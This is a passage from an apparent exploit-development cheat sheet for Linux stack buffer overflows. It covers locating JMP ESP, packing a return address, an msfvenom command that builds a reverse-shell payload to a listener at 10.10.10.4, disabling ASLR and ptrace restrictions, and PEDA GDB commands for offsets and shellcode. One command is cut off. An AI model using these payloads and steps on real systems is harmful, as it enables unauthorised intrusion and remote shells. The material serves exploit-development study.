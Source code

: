     Use [OpcodeSearcher](https://www.whitelist1.com/2016/11/stack-overflow-8-exploiting-crossfire.html) tool of [Evans Debugger](https://github.com/eteran/edb-debugger) to search for a `JMP ESP` instruction or equivalent in the memory region where the code section of the target application is mapped, if required.

    Update the `pwn.py` script to include identified return address in little endian format using [Python’s struct library](https://deceiveyour.team/2018/10/07/using-pythons-struct-pack-function-in-exploit-development/)  

        from struct import pack
        eip = pack('<L', 0x6d7e512a)

13. Generate attack payload

        msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.4 LPORT=443 -b "\x00\x20" -f py -v shellcode

14. Temporarily disable ASLR
        
        sudo sysctl -w kernel.randomize_va_space=0

    To permanently disable ASLR

        echo 0 | sudo tee 

15. Allow ptrace processes

        sudo sysctl -w kernel.yama.ptrace_scope=0


## PEDA GDB

A few commonly used commands:

    pdisas <function_name>
    pdisas main
    b * 0x0804ABCD

    pattern_create 200
    pset arg 'cyclic_pattern(200)'
    pshow arg

    run/r

    pattern_offset 0xAABBCCDD 200
    pattern_search

    shellcode
    shellcode x86/linux exec

    python
    shellcode=(...)
    end

    pset arg '"A"*76 + "BBBB" + "\x90"*500 + shellcode'
    run/r

    pset arg '"A"*76 + int2hexstr(0xEEFFGGHH) + "\x90"*500 + shellcode'

    run
    exit
    clear
    skeleton
    skeleton argv exploit-bof1.py
